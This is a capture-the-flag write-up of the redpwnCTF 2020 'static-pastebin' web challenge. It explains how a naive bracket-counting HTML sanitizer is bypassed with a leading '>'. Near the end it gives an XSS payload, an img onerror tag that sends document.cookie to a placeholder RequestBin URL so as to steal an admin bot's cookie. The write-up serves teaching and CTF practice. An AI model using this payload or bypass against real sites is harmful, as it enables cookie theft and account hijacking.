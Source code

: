```yaml
---
layout: post
title: redpwnCTF 2020 - static-pastebin
summary: An in-depth look at static-pastebin from redpwnCTF 2020. Huge thanks to redpwn for this awesome event!
date: 2020-06-25
author: Noxtal
categories: writeups
thumbnail:  redpwnctf
tags:
 - redpwnctf
 - web
 - javascript
 - cookie stealing
 - xss
 - requestbin
---
```


 An in-depth look at static-pastebin from redpwnCTF 2020. Huge thanks to **redpwn** for this awesome event!

-----

# Description
Web, 373 points</br>
Challenge author: BrownieInMotion

> I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here]("https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin")

*Note: if this challenge is not disponible at the time you read this writeup, I've made a similar challenge hosted on my domain. You can find it [here](https://challenges.noxtal.com/redbook).*

# Solution
When we open the challenge's website, we can see a pastebin-like website on which you can create a *paste* and "publish it to the internet". Actually, after analyzing the code a bit, we can find that the *paste*'s URL is only `/paste/#` appended with the paste itself encoded as base64.

We have only got a text input and a button that allows us to reflect what we have typed on another page. This is a perfect playground for XSS. If you don't know XSS yet, I really suggest you learn more about it, as it is a really common attack in real-life scenarios. You can learn more about it on my [learning platform](https://learn.noxtal.com).

Let's test this idea by trying to inject an h1 tag in the *paste*.

![h1 test](https://i.imgur.com/bIM7b3n.png)

Weirdly, it seems like the h1 tag wasn't reflected on the *paste*. That doesn't mean XSS is not possible, it only means that there may be a sanitizer implemented that we need to bypass. By looking at the source provided in Chrome's Developer Tools, we can find a JavaScript file named *script.js*.

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

There is the sanitizer, the `clean()` function. As you can probably see, this function removes (or unless tries) to remove every string surrounded by brackets, thus HTML tags. 

## Sanitizer Bypass
We now need to bypass the sanitizer. Let's take a look at the code to figure out how to bypass it. The main loop loops over each character of the *paste*. Then comes the filters: there is a variable named `brackets` which keeps track of if the current character is in between brackets or not. If a less than bracket sign is encountered, this count goes up by 1. Else, if a greater than sign appears, the count goes down by 1. If the count is equal to 0, the current character is reflected on the *paste*. 

After a few bypass attempts, we can find that putting a greater than sign in front of the tag we want to inject, it will actually be reflected. This comes from the fact that this sign makes the count go down by 1, thus when the less than sign will be encountered the `brackets` variable is going to equal zero.

The only con with this technique is that we can only pass one tag, so no classic opening and closing tags. This is not really a problem when using *img* tags, as you will see later on.

## Cookie Stealing
In the challenge's description, we can see we are given an admin bot. The flag must be contained in that admin user. One of the main use of XSS is stealing cookies, meaning we may need to steal the admin bot's cookie. To steal cookies, we only need to inject a tag that requests a page we own with the cookies in the query and give that to the user we want to steal cookies from. This process can be done easily by the use of RequestBin.

RequestBin is a web application allowing you to create a special URL that logs every request made to it so you can analyze them. If we request a RequestBin URL and append `document.cookie` to it, we should get a request logged containing the cookie in the query logged. This is the final payload I came up with. It makes use of an image tag with the `src` parameter set to x and the `onerror` parameter to the JavaScript code we want to execute (in our case requesting the RequestBin link). The `src` parameter will create an error because it was set to an arbitrary value and will trigger the code specified in the `onerror` parameter.

```html
><img src=x onerror=this.src="REQUESTBIN_URL"+document.cookie/>
```

We finally need to put the payload in the paste and give the corresponding URL to the admin bot and we are done! The flag can be found as expected in the admin cookies.
![flag](https://i.imgur.com/JTGRrrh.png)

That's all we got to do to solve this challenge. RedpwnCTF was really fun, even if the challenges were harder than other CTFs I played. I enjoyed doing the web challenges. Huge thanks to **redpwn** for this awesome event. 

If this challenge is not disponible at the time you read this writeup, I've made a similar challenge hosted on my domain. You can find it [here](https://challenges.noxtal.com/redbook).

